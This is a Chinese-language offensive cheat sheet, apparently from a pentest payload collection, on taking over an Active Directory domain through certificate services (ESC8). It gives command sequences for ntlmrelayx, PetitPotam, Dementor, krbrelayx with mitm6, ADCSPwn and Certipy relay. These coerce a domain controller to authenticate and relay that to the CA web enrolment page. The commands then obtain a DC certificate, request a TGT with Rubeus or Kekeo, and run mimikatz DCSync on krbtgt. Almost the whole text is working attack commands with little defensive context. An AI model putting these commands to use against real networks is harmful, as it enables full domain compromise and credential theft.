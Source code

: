 	攻击者可以使用 PetitPotam 触发域控制器，将 NTLM 凭据中继到选择的主机。然后可以将域控制器的 NTLM 凭据中继到 Active Directory 证书服务 (AD CS) Web 注册页面，并且可以注册 DC 证书。然后，此证书可用于请求 TGT（Ticket Granting Ticket）并通过 Pass-The-Ticket 破坏整个域。
	https://github.com/SecureAuthCorp/impacket/pull/1101
#### NTLM 中继 + Rubeus + PetitPotam
  ```bash
impacket> python3 ntlmrelayx.py -t http://<ca-server>/certsrv/certfnsh.asp -smb2support --adcs
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template VulnTemplate
对于成员服务器或工作站，模板为 "Computer".
其他模板：工作站、域控制器、机器、KerberosAuthentication

使用 petitpotam 通过 MS-ESFRPC EfsRpcOpenFileRaw 函数强制进行身份验证
您还可以使用任何其他方式通过 MS-RPRN 强制进行身份验证，例如 PrintSpooler
git clone https://github.com/topotam/PetitPotam
python3 petitpotam.py -d $DOMAIN -u $USER -p $PASSWORD $ATTACKER_IP $TARGET_IP
python3 petitpotam.py -d '' -u '' -p '' $ATTACKER_IP $TARGET_IP
python3 dementor.py <listener> <target> -u <username> -p <password> -d <domain>
python3 dementor.py 10.10.10.250 10.10.10.10 -u user1 -p Password1 -d lab.local

使用带有 rubeus 的证书来请求 TGT
Rubeus.exe asktgt /user:<user> /certificate:<base64-certificate> /ptt
Rubeus.exe asktgt /user:dc1$ /certificate:MIIRdQIBAzC...mUUXS /ptt

现在您可以使用 TGT 执行 DCSync
mimikatz> lsadump::dcsync /user:krbtgt
```
#### NTLM 中继 + Mimikatz + Kekeo
``` bash
impacket> python3 ./examples/ntlmrelayx.py -t http://10.10.10.10/certsrv/certfnsh.asp -smb2support --adcs --template DomainController

Mimikatz
mimikatz> misc::efs /server:dc.lab.local /connect:<IP> /noauth

Kekeo
kekeo> base64 /input:on
kekeo> tgt::ask /pfx:<BASE64-CERT-FROM-NTLMRELAY> /user:dc$ /domain:lab.local /ptt

Mimikatz
mimikatz> lsadump::dcsync /user:krbtgt
```
#### Kerberos 中继
	>sudo krbrelayx.py --target http://CA/certsrv -ip attacker_IP --victim target.domain.local --adcs --template Machine
	>sudo mitm6 --domain domain.local --host-allowlist target.domain.local --relay CA.domain.local -v
#### DCSPwn - 需要WebClient在域控制器上运行的服务。默认情况下未安装此服务。
  	https://github.com/bats3c/ADCSPwn
	>adcspwn.exe --adcs <cs server> --port [local port] --remote [computer]
	>adcspwn.exe --adcs cs.pwnlab.local
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --port 9001
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --output C:\Temp\cert_b64.txt
	>adcspwn.exe --adcs cs.pwnlab.local --remote dc.pwnlab.local --username pwnlab.local\mranderson --password The0nly0ne! --dc dc.pwnlab.local
#### Certipy ESC8
  	>certipy relay -ca 172.16.19.100